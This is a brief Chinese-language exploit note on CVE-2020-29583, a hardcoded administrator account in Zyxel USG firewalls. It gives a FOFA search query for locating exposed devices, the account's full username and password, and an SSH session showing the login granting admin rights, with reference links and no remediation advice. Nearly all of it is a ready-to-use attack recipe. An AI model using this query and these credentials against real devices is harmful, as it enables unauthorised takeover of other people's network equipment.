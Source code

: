 # Zyxel USG Series 账户硬编码漏洞（CVE-2020-29583）

FOFA:

```
title="USG40"
```

```bash
Username: zyfwp
Password: PrOw!aN_fXp
```

该帐户可以同时在SSH和Web界面上使用。

```bash
$ ssh zyfwp@192.168.1.252
Password: Pr*******Xp
Router> show users current
No: 1
  Name: zyfwp
  Type: admin
(...)
Router>

```

![](media/16096787060610/16096787506272.jpg)


ref:

* https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
* https://twitter.com/dozernz/status/1344435468868358145
* https://forum.ywhack.com/thread-114904-1-1.html